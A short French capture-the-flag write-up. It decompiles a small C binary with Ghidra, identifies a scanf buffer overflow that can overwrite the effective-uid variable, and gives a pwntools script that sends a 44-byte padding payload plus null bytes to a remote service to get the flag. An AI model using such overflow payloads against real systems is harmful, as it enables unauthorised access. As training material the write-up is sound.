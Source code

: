 # UID

En reversant le programme avec ghidra, nous avons : 

```c
undefined8 main(void)

{
  undefined local_38 [44];
  __uid_t local_c;
  
  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}
```

On voit déjà la fonction scanf qui peut provoquer des buffer overflows. Le but ici serait de réécrire par dessus la variable local_c afin d'obtenir le flag. Nous voyons également que le buffer a une taille allouée de 44. 

Ainsi notre payload serait de cette forme : 

A*44 + \x00\x00\x00\x00

Testons ! 

```
import pwn

def exploit():
    conn = pwn.remote(IP,4000)
    while conn.can_recv(timeout=1):
        conn.sendlineafter("username:",'A'*44+'\x00\x00\x00\x00')
        conn.interactive()

exploit()
```

et hop ! ça marche directement on a le flag ! 